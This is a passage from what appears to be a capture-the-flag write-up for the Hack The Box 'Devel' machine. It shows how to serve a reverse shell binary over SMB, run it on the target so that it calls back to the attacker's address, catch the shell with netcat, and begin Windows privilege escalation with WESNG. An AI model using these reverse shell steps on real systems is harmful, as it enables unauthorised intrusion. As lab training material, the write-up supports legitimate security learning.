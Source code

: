 Host reverse shell binary

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ cd smb

┌──(kali㉿kali)-[~/htb/Devel/smb]
└─$ cp /opt/sectools/redteam/xxx/sel.exe .

┌──(kali㉿kali)-[~/htb/Devel/smb]
└─$ smbserver.py s . -smb2support
```

Execute the reverse shell through smb

```bash
\\10.10.14.70\s\sel.exe 10.10.14.70 1111
```

![](/assets/obsidian/792c9c980ad8ecdca42df668d18d23b8.png)

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.10.5] 49356
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```


## Privilege Escalation with WESNG


### Windows Exploit Suggester Next Generation

Get **systeminfo** result from target

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
...
```
